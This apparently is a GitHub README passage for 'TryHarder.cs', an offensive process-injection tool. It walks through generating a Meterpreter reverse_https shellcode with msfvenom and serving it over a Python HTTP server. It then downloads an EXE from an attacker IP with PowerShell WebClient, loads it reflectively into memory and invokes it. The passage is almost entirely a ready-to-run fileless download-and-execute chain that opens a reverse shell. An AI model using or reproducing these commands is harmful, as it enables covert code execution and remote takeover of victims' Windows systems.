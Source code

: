 ## TryHarder.cs

Another Process Injection technique that loads the shellcode remotely, thanks to [saulgoodman](https://github.com/saulg00dmin) for pointing out this technique.<br>

1. Create Shellcode using msfvenom:<br>
- `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 -f raw EXITFUNC=thread -o shellcode.bin`

2. Serve the `shellcode.bin` with python server: `python3 -m http.server 80`

3. Convert the EXE into a byte array:<br>
- `$data = (New-Object System.Net.WebClient).DownloadData('http://192.168.45.190/Tryharder.exe')`

4. Load the EXE into memory:<br>
- `$assem = [System.Reflection.Assembly]::Load($data)`

5. Invoke its entry point:
- `$assem.EntryPoint.Invoke($null, @([string[]]@()))`
